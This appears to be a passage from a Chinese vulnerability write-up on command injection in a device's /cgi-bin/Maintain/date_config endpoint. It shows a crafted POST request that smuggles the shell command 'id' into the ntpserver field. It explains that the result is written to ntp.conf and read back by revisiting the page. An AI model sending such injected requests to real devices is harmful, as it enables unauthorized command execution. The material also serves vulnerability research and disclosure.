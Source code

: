 构造请求

```php
POST /cgi-bin/Maintain/date_config

ntpserver=0.0.0.0;id&year=2021&month=08&day=14&hour=17&minute=04&second=50&tz=Asiz&bcy=Shanghai&ifname=fxp1
```

![img](../../../.vuepress/public/img/1628933229066-f8d6c653-898f-4ca4-811e-6d9ee9f9e528.png)

**成功写入 ntp.conf 文件为 0.0.0.0;id, 再次访问该页面就可以获取命令执行结果**

![img](../../../.vuepress/public/img/1628933214110-726666cf-d57e-4ccc-91e2-72a5d93bb27e.png)



交互处可进行命令拼接造成注入

![img](../../../.vuepress/public/img/1628866823919-229f07f4-6805-40ce-bc7b-46c33387e40a.png)